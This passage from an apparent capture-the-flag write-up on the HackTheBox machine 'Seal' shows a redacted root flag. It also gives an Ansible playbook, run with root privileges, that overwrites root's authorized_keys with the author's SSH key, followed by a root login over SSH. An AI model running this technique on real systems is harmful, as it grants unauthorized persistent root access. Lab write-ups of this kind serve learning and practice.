     
    
    root@seal:~# cat root.txt
    cfe39341************************
    

#### Via SSH

I could just as easily create a playbook to put my public SSH key into the
root’s `authorized_keys` file:

    
    
    - hosts: localhost
      tasks:
      - name: rev
        shell: mkdir -p /root/.ssh; echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > /root/.ssh/authorized_keys
    

After running this, I can connect as root:

    
    
    oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@seal.htb 
    ...[snip]...
    root@seal:~# 
    

[](/2021/11/13/htb-seal.html)

